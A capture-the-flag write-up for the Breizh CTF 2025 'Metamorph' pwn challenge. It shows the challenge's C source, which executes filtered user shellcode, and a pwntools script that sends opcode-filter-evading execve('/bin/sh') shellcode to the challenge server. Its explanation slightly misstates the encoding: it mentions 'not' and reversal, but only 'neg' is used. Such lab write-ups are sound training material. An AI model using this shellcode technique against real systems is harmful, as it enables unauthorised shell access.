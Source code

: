 ```yaml
---
title: "Breizh CTF 2025 - Metamorph"
date: 2025-04-14
tags: ["pwn", "shellcode", "exploitation"]
categories: ["pwn"]
ctfs: ["breizh-ctf"]
---
```


# Metamorph - Breizh CTF 2025

## Challenge Description

Metamorph is a Pwn category challenge from Breizh CTF 2025. It is a binary that accepts a shellcode as input but imposes certain restrictions on the usable opcodes.

## Binary Analysis

By examining the binary's source code, we notice several important points:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

void transform() {
    void *shellcode;
    ssize_t bytes_read;

    shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    if (shellcode == MAP_FAILED) {
        perror("mmapi fail.");
        exit(1);
    }

    printf("Métamorph is waiting for its code... Transform it!\n");
    printf(">> ");
    
    bytes_read = read(0, shellcode, 0x50); 
    
    if (bytes_read <= 0) {
        perror("read failed");
        exit(1);
    }

    // Morphing...
    unsigned char *sc = (unsigned char *)shellcode;
    for (int i = 0; i < 0x50; i++) {
        if (sc[i] == 0x62){
            perror("Métamorph doesn't like 'b'.");
            exit(1);
        }

        if (sc[i] == 0x5e){
            perror("Métamorph doesn't like pop rsi.");
            exit(1);
        }

        if (sc[i] == 0x31){
            perror("Métamorph doesn't like xor.");
            exit(1);
        }

        if (sc[i] == 0x50){
            perror("Métamorph doesn't like push rax.");
            exit(1);
        }
    }

    ((void (*)())shellcode)(); 
}
```

The constraints are as follows:
1. The shellcode is limited to a maximum of 80 bytes
2. The following opcodes are forbidden:
   - `0x62` (opcode 'b')
   - `0x5e` (pop rsi)
   - `0x31` (xor)
   - `0x50` (push rax)

The program allocates an executable memory region with `mmap`, reads our input into it, checks the constraints, then executes the provided code.

## Exploitation

The goal is to create a shellcode that executes the `/bin/sh` command while avoiding the forbidden opcodes.

After several attempts, I was able to develop a shellcode that bypasses these restrictions:

```python
from pwn import *
import sys

if len(sys.argv) > 1 and sys.argv[1] == "REMOTE":
    conn = remote('morph-180.chall.ctf.bzh', 1337)
else:
    conn = process('./metamorph')  

conn.recvuntil(b">>")
conn.sendline(b"\xba\x00\x00\x00\x00\xbe\x00\x00\x00\x00\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x48\x89\xe7\xb8\x00\x00\x00\x00\x48\x83\xc0\x3b\x0f\x05\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80")
conn.interactive()
```

### Shellcode Explanation

The shellcode above uses several techniques to avoid the forbidden opcodes:

1. Instead of using `xor` to initialize registers, I use direct `mov` instructions with immediate zero values
2. I used alternative techniques to store `/bin/sh` in the registers
3. I use `not` then `neg` to obtain the `/bin/sh` string
4. Using `mov rax, 0` followed by `add rax, 59` avoids the direct use of `xor rax, rax`

The `/bin/sh` string is encoded reversed and bitwise complemented to avoid problematic opcodes.

## Flag

Once the shellcode is successfully executed, you get a shell on the remote server and can read the flag with the command `cat flag.txt`.

```
$ cat flag.txt
BZHCTF{m3t4_m0rph_m4573r_1337}
```
